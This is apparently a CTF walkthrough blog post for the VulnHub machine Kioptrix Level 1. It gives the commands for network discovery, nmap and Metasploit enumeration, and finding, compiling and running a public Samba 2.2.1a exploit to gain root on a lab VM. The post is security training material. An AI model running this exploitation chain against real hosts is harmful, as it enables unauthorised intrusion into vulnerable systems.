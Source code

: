 ```yaml
---
title: "Vulhub-Kiotrix Level 1 Walkthrough"
date: 2024-01-24
categories: [Vulnhub, CTF]
image: /assets/Kioptrix_Cover.jpg
tags: [Kioptrix, Boot2Root, Penetration Testing, Samba Exploit]
description: "A walkthrough for hacking the vulnerable machine Kioptrix Level 1 from VulnHub."
active: false
retire_date: 2025-05-10T00:00:00Z
youtube_id: "https://www.youtube.com/watch?v=9DsBlRrmBRM&t=1005s"

---
```


## Introduction
Welcome to the Kiotrix Level 1 challenge. This is a walkthrough for hacking the vulnerable machine **Kioptrix Level 1** from VulnHub. There are various ways to root this box, and I will keep the process clear and concise. Let's get started.

## Challenge Details
- **Name:** Kiotrix Level 1  
- **Category:** Boot2Root  
- **Difficulty:** Easy/  

## Prerequisites
Before you begin, ensure that you have the following:
- **Kali Linux** or any other preferred penetration testing distribution.
- **Kioptrix Level 1 VM** installed and running.
![Kioptrix VM Running](../assets/1kioprix.png)
## Walkthrough
### Step 1: Reconnaissance
#### Network Discovery and Setupp
Execute the following command on your attack machine to check if Kioptrix Level 1 is on the network:
```bash
arp-scan -l
```
If Kioptrix is not detected, troubleshoot and ensure it is installed correctly.
![Kioptrix VM Running](../assets/2kioptrix.png)
Identified IP address:
```bash
192.168.10.171
```

### Step 2: Enumeration
Run an Nmap scan to identify open ports and services:
```bash
nmap -A -p- -T4 192.168.10.171
```
The results show that **port 80 is open**, displaying a test page in the browser.
![Kioptrix VM Running](../assets/4kioptrix.png)
![Kioptrix VM Running](../assets/3kioptrix.png)
Additionally, **Samba service** is detected, which will be crucial for privilege escalation.

### Step 3: Samba Enumeration
Utilize `enum4linux` and `smbclient` to confirm the presence of Samba on the remote host.
![Kioptrix VM Running](../assets/5kioptrix.png)
Start Metasploit and use the auxiliary scanner:
![Kioptrix VM Running](../assets/6kioptrix.png)
```bash
msfconsole
use auxiliary/scanner/smb/smb_version
set RHOSTS 192.168.10.171
run
```
![Kioptrix VM Running](../assets/6kioptrix.png)
The results show that **Samba 2.2.1a** is running, which is vulnerable to multiple exploits.

### Step 4: Exploitation - Samba 2.2.1a
Search for available exploits using `searchsploit`:
```bash
searchsploit samba 2.2.1a
```
The results show multiple exploits, and we choose `multiple/remote/10.c`.
![Kioptrix VM Running](../assets/9kioptrix.png)
Download the exploit:
```bash
searchsploit -m multiple/remote/10.c
```
![Kioptrix VM Running](../assets/10kioptrix.png)
Compile the exploit:
```bash
gcc -o sambaexploit 10.c
```
![Kioptrix VM Running](../assets/11kioptrix.png)
Execute the exploit:
```bash
./sambaexploit -b 192.168.10.171
```
![Kioptrix VM Running](../assets/12kioptrix.png)
After execution, verify root access:
```bash
whoami
```
![Kioptrix VM Running](../assets/13kioptrix.png)
![Kioptrix VM Running](../assets/14kioptrix.png)
## Conclusion
You've successfully completed Kiotrix Level 1. This walkthrough provided a step-by-step guide to solving the challenge. If you encountered any issues or have questions, feel free to reach out!

Remember to document and understand the techniques used, as they may be helpful in future CTFs. **Happy hacking!**

